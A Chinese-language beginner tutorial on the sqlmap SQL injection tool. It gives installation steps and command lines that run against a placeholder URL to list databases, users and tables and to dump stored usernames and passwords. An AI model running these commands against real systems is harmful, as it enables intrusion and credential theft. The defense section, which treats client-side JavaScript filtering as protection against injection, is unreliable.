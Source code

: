 一、简介
SQLMAP是一款非常强大的开源渗透测试工具，用于自动检测和利用SQL注入漏洞控制数据库服务器的过程。它配备了一个强大的检测引擎，由Python语言开发完成，通过外部连接访问数据库底层文件系统和操作系统，并执行命令实现渗透。
二、安装方式
首先需要计算机已经配置有python开发环境，接着进入命令控制面板，输入：pip install sqlmap（建议：在使用pip时首先进行换源，换为国内的源，可以加快下载速度）。
接着进入到sqlmap文件夹目录下就可以开始进行使用了
三、基本命令
1. 进行漏洞检测：使用命令为：python sqlmap.py -u "http://XXXXXX"
    在该条命令中，-u表示网址url。
2. 获取所有数据库：--dbs，使用命令为：python sqlmap.py -u "http://XXXXXXX" --dbs
    在该条命令中，--dbs表示数据库databases。
3. 获取当前数据库：--current-db，使用命令为：python sqlmap.py -u "http://XXXXXXX" --current-db
    在该条命令中，--current-db表示当前数据库。
4. 获取数据库所有用户：--users，使用命令为：python sqlmap.py -u "http://XXXXXXX" --users
    输出为该数据库的用户库
5. 获取数据库当前用户：--current-user，使用命令为：python sqlmap.py -u "http://XXXXXXX" --current-user
    输出为当前数据库的用户。
6. 获取数据库所有用户和密码：--passwords，使用命令为：python sqlmap.py -u "http://XXXXXXX" --passwords
    输出为数据库的用户名及其密码
7. 获取数据库的所有表：-D database --tables，使用命令：python sqlmap.py -u "http://XXXXXXX" -D database --tables
    输出为数据库database下的所有表信息
8. 获取数据库登录表的所有字段：-D database -T table --columns，使用命令：python sqlmap.py -u "http://XXXXXXX" -D database -T table --columns
    输出为数据库database下table表的所有列信息
9. 获取数据库登录表的用户名及密码：-D database -T table -C "column1,column2" --dump，使用命令：python sqlmap.py -u "http://XXXXXXX" -D databse -T table -C "column1,column2" --dump
    输出为数据库database下table表中的用户名及密码
    另外，如果字段内容过多，可以设置输出个数，具体参数为：--start num1 --stop num2 --dump
通过以上步骤我们就可以使用sqlmap完成一次注入攻击。
四、对于SQL注入的防御措施
1. 对于绝大多数网站而言，存在数据库中的信息大多数都使用不同的加密算法进行加密，在这个基础上，即使存在hacker渗透并获取了数据库信息，那么在解密上也会存在困难，当然，这是我们数据库保护的最后一条防线。
2. 在JS中，可以通过设置特殊字符屏蔽，正则表达式筛选，对敏感字符进行检查等措施防止从URL进行注入。
五、总结
SQL注入学习并不能完全依赖于工具，了解SQL注入的原理，理解SQL注入攻击的特点，才能更好的对这样的攻击方式做出防御手段。所以，打好基础依然很重要，工具的使用只是简化了程序员的工作量。
对于网络安全方面，我还是个小白，存在对技术理解有误或者存在错误的地方，欢迎各位大佬指出，我一定积极改正。
借鉴一句话送给自己和同行者：“苦心人，天不负，吾道不孤。”
